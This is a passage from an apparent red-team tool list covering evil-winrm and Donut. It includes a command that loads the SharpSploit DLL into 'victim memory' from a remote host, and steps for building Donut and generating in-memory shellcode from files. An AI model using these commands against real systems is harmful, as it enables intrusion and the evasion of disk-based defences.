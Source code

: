 ```bash
# Load DLL library into victim memory
Dll-Loader -http http://10.10.10.10/SharpSploit.dll
```

Full usage documentation can be found [here](https://github.com/Hackplayers/evil-winrm#documentation).

![image](https://user-images.githubusercontent.com/100603074/210266192-ad53c125-7b3b-4a91-89c1-01c42cb21ef3.png)

_Image used from https://korbinian-spielvogel.de/posts/heist-writeup/_

### [🔙](#tool-list)[Donut](https://github.com/TheWover/donut/)

A tool for in-memory execution of VBScript, JScript, EXE, DLL files and dotNET assemblies. It can be used to load and run custom payloads on target systems without the need to drop files to disk.

**Install: (Windows)**

```bash
git clone http://github.com/thewover/donut.git
```

To generate the loader template, dynamic library donut.dll, the static library donut.lib and the generator donut.exe. Start an x64 Microsoft Visual Studio Developer Command Prompt, change to the directory where you cloned the Donut repository and enter the following:

```bash
nmake -f Makefile.msvc
```

To do the same, except using MinGW-64 on Windows or Linux, change to the directory where you cloned the Donut repository and enter the following:

```bash
make -f Makefile.mingw
```

**Install: (Linux)**

```bash
pip3 install donut-shellcode
```

**Usage:**

```bash
# Creating shellcode from an XSL file that pops up a calculator.
shellcode = donut.create(file=r"C:\\Tools\\Source\\Repos\\donut\\calc.xsl")

# Creating shellcode from an unmanaged DLL. Invokes DLLMain.
shellcode = donut.create(file=r"C:\Tools\Source\Repos\donut\payload\test\hello.dll")
```

For full usage information, see the donut [GitHub Page](https://github.com/TheWover/donut/#4-usage).

See [a recent blog post](https://thewover.github.io/Bear-Claw/) from The Wover for more info.
